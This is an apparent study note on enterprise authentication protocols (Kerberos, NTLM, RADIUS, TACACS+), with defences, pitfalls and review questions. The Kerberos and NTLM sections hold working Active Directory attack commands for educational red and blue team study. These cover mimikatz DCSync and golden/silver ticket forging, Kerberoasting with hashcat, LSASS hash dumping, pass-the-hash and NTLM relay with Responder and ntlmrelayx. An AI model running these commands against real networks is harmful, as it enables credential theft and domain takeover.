


# 🔐 Authentication Protocols

> [!abstract] TL;DR
> Enterprise authentication rests on three protocols: **Kerberos** (default AD protocol — ticket-based, single-sign-on, vulnerable to golden ticket/pass-the-ticket attacks), **NTLM** (legacy challenge-response fallback — vulnerable to pass-the-hash, relay attacks, never use if Kerberos is available), and **RADIUS** (network access authentication for 802.1X WiFi/VPN — EAP-TLS is the gold standard, PEAP is acceptable). TACACS+ separates Authentication, Authorisation, and Accounting (unlike RADIUS) and is preferred for network device administration. Understanding the attack chains against each protocol is essential for both red and blue team work.

---

## Authentication Protocol Landscape



---

## Kerberos Authentication

### How Kerberos Works



Key components:
- **KDC (Key Distribution Centre)**: AS + TGS, runs on every DC
- **TGT (Ticket Granting Ticket)**: Encrypted with KRBTGT account hash; proves identity to KDC
- **Service Ticket**: Encrypted with target service account's hash; proves identity to service
- **SPN (Service Principal Name)**: Identifier for a service (e.g., `MSSQLSvc/dbserver.corp.local:1433`)

### Kerberos Attack Techniques

**Golden Ticket Attack** — DCSync/DCReplication to steal KRBTGT hash → forge any TGT:
```bash
# Step 1: Extract KRBTGT hash (requires DA access or DCSync)
mimikatz# lsadump::dcsync /domain:corp.local /user:krbtgt
# [DC] 'corp.local' will be the domain
# Object RDN : krbtgt
# Hash NTLM: <32-char-hash>

# Step 2: Forge golden ticket (valid for 10 years, bypasses all domain auth)
mimikatz# kerberos::golden /user:Administrator /domain:corp.local \
  /sid:S-1-5-21-xxxx /krbtgt:<hash> /ptt
# /ptt = pass-the-ticket (injects ticket into current session)

# Step 3: Access any service in the domain
dir \\dc01.corp.local\c$
```

**Silver Ticket Attack** — Forge service ticket for specific service using service account hash:
```bash
# Quieter than golden ticket (only interacts with target service, not KDC)
mimikatz# kerberos::golden /user:Administrator /domain:corp.local \
  /sid:S-1-5-21-xxxx /target:mssql.corp.local /service:MSSQLSvc \
  /rc4:<service-account-hash> /ptt
# Access the MSSQL service directly without touching KDC
```

**Kerberoasting** — Request service tickets for any SPN, crack them offline:
```bash
# Any domain user can request service tickets for any SPN
# Service tickets are encrypted with service account hash → crack with hashcat
python GetUserSPNs.py corp.local/user:password -dc-ip 10.10.10.1 -request
# Outputs Kerberos 5 TGS-REP etype 23 hashes
hashcat -m 13100 kerberoast.txt rockyou.txt
# Weak service account passwords are crackable in minutes
```

**Defence against Kerberos attacks**:
- Protect KRBTGT: reset KRBTGT password twice (invalidates all outstanding TGTs) after compromise
- Protected Users group: members get more restrictive Kerberos settings, no delegation, shorter ticket lifetime
- Kerberos FAST (Flexible Authentication Secure Tunneling): armours AS-REQ
- AES encryption enforcement (disable RC4/DES): modern Kerberos uses AES-256

---

## NTLM Authentication

### NTLM Challenge-Response Flow

```
Client → Server: NEGOTIATE_MESSAGE (capabilities)
Server → Client: CHALLENGE_MESSAGE (8-byte random nonce)
Client → Server: AUTHENTICATE_MESSAGE (NT hash of password XOR'd with challenge)
                = NTLM Hash = MD4(UTF16LE(password))
```

```bash
# NTLM Hash format: LMHASH:NTHASH
# Pass-the-Hash: use NTLM hash directly without knowing plaintext

# Mimikatz: dump hashes from LSASS memory
mimikatz# sekurlsa::logonpasswords

# Pass-the-Hash using dump hash
# impacket psexec.py with hash
python psexec.py corp.local/Administrator@10.10.10.1 -hashes :aad3b435b51404eeaad3b435b51404ee:<NT-hash>

# NTLM Relay: capture NTLM auth and relay to another service
# Responder: MITM on the network, capture NTLMv2 challenges
responder -I eth0 -rdwv
# ntlmrelayx: relay captured auth to DC for DCSync
ntlmrelayx.py -t ldaps://dc01.corp.local --no-http-server -smb2support \
  --delegate-access  # abuses resource-based constrained delegation
```

**NTLM vs Kerberos comparison:**

| Feature | NTLM | Kerberos |
|---------|------|---------|
| Mutual authentication | No (NTLMv1), partial (v2) | Yes |
| Delegation support | Limited | Full (constrained/unconstrained) |
| Offline attack surface | Pass-the-hash, relay | Golden/silver ticket, Kerberoasting |
| Current usage | Legacy fallback, workgroups | Default in AD environments |
| Disable recommendation | Yes, enforce Kerberos only | N/A |

---

## RADIUS (802.1X)

RADIUS authenticates network access (WiFi, VPN, switch ports):

```
Supplicant (User/Device) ←→ Authenticator (AP/Switch/VPN concentrator) ←→ RADIUS Server
                                    802.1X                               RADIUS (UDP 1812)
```

### EAP Type Comparison

| EAP Type | Certificate Required | Mutual Auth | Security | Use Case |
|----------|---------------------|-------------|---------|----------|
| EAP-TLS | Client + Server cert | Yes | Strongest | Enterprise WiFi |
| PEAP-MSCHAPv2 | Server cert only | One-way | Good | Common enterprise |
| EAP-TTLS/PAP | Server cert only | One-way | Good | Flexible inner methods |
| LEAP (Cisco) | None | No | Deprecated — do not use | Legacy Cisco |
| EAP-MD5 | None | No | Broken | Never use |

```
# EAP-TLS flow (strongest):
1. Supplicant presents client certificate
2. RADIUS server validates: cert chain, CN matches user, not revoked (OCSP/CRL)
3. RADIUS validates against AD group membership
4. Returns Access-Accept → AP opens port for VLAN assignment
```

---

## TACACS+ vs RADIUS

TACACS+ (Terminal Access Controller Access Control System Plus) is used for network device administration (Cisco, Juniper):

| Feature | RADIUS | TACACS+ |
|---------|--------|---------|
| Protocol | UDP 1812/1813 | TCP 49 |
| Encryption | Password only | Full payload encrypted |
| AAA separation | Combined | Separate A+A+A |
| Per-command authorisation | No | Yes (critical for network devices) |
| Primary use | Network access (users) | Device administration |
| Accounting | Basic | Detailed (command-level) |
| Multi-vendor | Broad | Primarily Cisco |

```
TACACS+ Per-Command Authorisation:
Network engineer types: "conf t" → TACACS+ checks if user can run config mode
Network engineer types: "no shutdown" → TACACS+ allows
Junior network engineer types: "debug ip packet" → TACACS+ denies
Every command is individually authorised and logged
```

---

## Authentication Factors

| Factor Type | Examples | Attack Surface |
|-------------|----------|---------------|
| Knowledge (something you know) | Password, PIN, security questions | Phishing, brute force, credential stuffing |
| Possession (something you have) | TOTP token, hardware key, smart card | Theft, cloning, OTP interception |
| Inherence (something you are) | Fingerprint, face ID, retina | Spoofing, deep fake, forced biometrics |
| Location (somewhere you are) | Geo-IP, GPS coordinates, network range | VPN bypass, IP spoofing |
| Behaviour (something you do) | Typing pattern, mouse movement | Adversarial training data |

---

## Common Pitfalls

1. **Not disabling NTLMv1** — NTLMv1 is trivially crackable; enforce `Network security: LAN Manager authentication level = Send NTLMv2 only`
2. **Weak service account passwords** — Kerberoasting extracts TGS hashes offline; managed service accounts (gMSA) rotate passwords automatically
3. **Unconstrained Kerberos delegation** — Servers with unconstrained delegation capture TGTs from any user who connects; use constrained or resource-based constrained delegation only
4. **RADIUS server cert not validated on client** — Users can be MITM'd to rogue RADIUS server; enforce strict cert validation in WiFi profiles
5. **Shared RADIUS secret** — Use long random secrets per NAS; a leaked secret allows traffic decryption

---

## Related Concepts

- [[Directory_Services|→ Active Directory]] — Kerberos, NTLM live in AD context
- [[SSO_and_Federation|→ SSO & Federation]] — SAML/OIDC as modern alternatives
- [[Multi_Factor_Authentication|→ MFA]] — RADIUS 802.1X integrates with MFA
- [[PAM_and_Privileged_Access|→ PAM]] — TACACS+ for privileged device access
- [[_MOC_Identity_and_Authentication|↑ Identity & Authentication MOC]]

---

## Review Questions

1. Explain the Kerberoasting attack: what does the attacker request, what data is returned, and why is it offline-crackable? What is the specific defence using Group Managed Service Accounts?
2. An NTLM relay attack requires network position (MITM). Describe two scenarios where an attacker gains this position in a corporate network, and two controls that break NTLM relay attacks.
3. Your WiFi network uses PEAP-MSCHAPv2. A security review recommends migrating to EAP-TLS. Describe the operational changes required and what specific attack PEAP-MSCHAPv2 leaves open that EAP-TLS prevents.
4. Compare TACACS+ and RADIUS for a network with 500 Cisco routers and switches. Which protocol would you choose for device management, and which for employee VPN access? Justify based on specific protocol features.

---

## Sources

- MIT Kerberos Documentation: https://web.mit.edu/kerberos/
- Harmj0y Kerberoasting: https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/
- RFC 2865 RADIUS: https://datatracker.ietf.org/doc/html/rfc2865
- Impacket: https://github.com/fortra/impacket

#Cybersecurity #Identity #Kerberos #NTLM #RADIUS #Authentication #ActiveDirectory
